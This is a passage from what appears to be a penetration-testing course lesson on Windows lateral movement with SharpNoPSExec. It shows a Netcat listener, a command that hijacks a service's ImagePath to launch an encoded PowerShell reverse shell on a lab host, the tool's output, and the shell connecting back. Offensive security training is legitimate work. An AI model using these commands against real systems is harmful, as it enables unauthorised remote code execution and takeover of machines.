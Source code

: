 --help          - Print help information.
</code></pre>
<p>To perform lateral movement with <code>SharpNoPSExec</code>, we will need a listener as this tool will only allow us to execute code on the machine, but it won't give us an interactive shell as <code>PsExec</code> does. We can start listening with <code>Netcat</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
</code></pre>
<p><code>SharpNoPSExec</code> uses the credentials of the console we are executing the command from, so we need to make sure to launch it from a console that has the correct credentials. Alternatively, we can use the arguments <code>--username</code>, <code>--password</code> and <code>--domain</code>. Additionally, we have to provide the target IP address or the domain name <code>--target=&lt;IP/Domain&gt;</code>, and the command we want to execute. For the command, we can use the payload shown in the help menu to set our reverse shell <code>--payload="c:\windows\system32\cmd.exe /c &lt;reverseShell&gt;</code>. We can generate the reverse shell payload using <a href="https://www.revshells.com/">https://www.revshells.com</a> or our favorite C2:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\SharpNoPSExec.exe --target=172.20.0.52 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="

[&gt;] Open SC Manager from 172.20.0.52.

[&gt;] Getting services information from 172.20.0.52.

[&gt;] Looking for a random service to execute our payload.
    |-&gt; Querying service NetTcpPortSharing
    |-&gt; Querying service UevAgentService
    |-&gt; Service UevAgentService authenticated as LocalSystem.

[&gt;] Setting up payload.
    |-&gt; payload = c:\windows\system32\cmd.exe /c ...SNIP...AbwBzAGUAKAApAA==
    |-&gt; ImagePath previous value = C:\Windows\system32\AgentService.exe.
    |-&gt; Modifying ImagePath value with payload.

[&gt;] Starting service User Experience Virtualization Service with new ImagePath.

[&gt;] Waiting 5 seconds to finish.

[&gt;] Restoring service configuration.
    |-&gt; User Experience Virtualization Service Log On =&gt; LocalSystem.
    |-&gt; User Experience Virtualization Service status =&gt; 4.
    |-&gt; User Experience Virtualization Service ImagePath =&gt; C:\Windows\system32\AgentService.exe
</code></pre>
<p>Looking at the attack box, we can see the reverse shell connection successfully being established:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 49866
